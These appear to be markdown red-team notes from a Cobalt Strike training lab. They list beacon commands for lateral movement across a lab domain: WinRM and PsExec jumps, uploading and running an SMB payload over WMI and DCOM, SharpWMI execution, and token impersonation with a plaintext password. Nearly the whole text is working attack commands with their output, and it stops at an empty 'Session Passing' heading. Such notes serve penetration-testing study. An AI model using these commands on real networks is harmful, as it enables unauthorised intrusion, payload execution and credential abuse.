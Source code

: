 ```bash
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web
```

### Windows Remote Management (WinRM)

```bash
beacon> jump winrm64 web.dev.cyberbotic.io smb
```

### PsExec

```bash
beacon> jump psexec64 web.dev.cyberbotic.io smb
# psexec_psh doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit)
beacon> jump psexec_psh web smb
```

### Windows Management Instrumentation (WMI)

```bash
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
Started process 3280 on web.dev.cyberbotic.io
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

```bash
# Error
beacon> make_token DEV\jking Qwerty123
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5

beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"
```

### DCOM

```bash
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
# Connect
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

## Session Passing
